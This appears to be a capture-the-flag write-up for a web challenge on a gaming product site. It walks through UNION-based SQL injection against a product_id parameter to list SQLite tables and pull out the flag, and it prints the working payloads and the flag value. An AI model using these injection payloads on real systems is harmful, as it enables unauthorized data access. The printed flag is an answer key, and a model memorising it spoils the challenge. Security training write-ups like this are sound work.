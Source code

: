 ## Description
We have amazing new products for our gaming service! Unfortunately we don't sell our unreleased flag product yet !

## Solution
We are given a site which looks like this-
<img width="1918" height="723" alt="image" src="https://github.com/user-attachments/assets/803a3530-acd2-4066-a400-c90e5b1753d8" />

The site displays products in the form of `/product?product_id=1` and so on
<img width="1919" height="666" alt="image" src="https://github.com/user-attachments/assets/5caf0c40-a3a1-421b-a016-96bc3bc76103" />

First we tried fuzzing from 1 to 11 after which no product comes then so not IDOR, so let's try SQLi. 

Trying `/product?product_id=-1%20UNION%20SELECT%201,2,3,4--%20` gave the table structure, confirming we have 4 columns.

Now trying `/product?product_id=-1%20UNION%20SELECT%201,(SELECT%20group_concat(name,0x3a)%20FROM%20sqlite_master%20WHERE%20type='table'),3,4--%20` gave 
```
ID Name Description Price
1 products58sqlite_sequence58flag 3 4
```

and finally writing `https://meteor.sunshinectf.games/product?product_id=-1%20UNION%20SELECT%201,(SELECT%20group_concat(flag,0x3a)%20FROM%20flag),3,4--%20
` we get the flag `sun{baby_SQL_injection_this_is_known_as_error_based_SQL_injection_8767289082762892}`



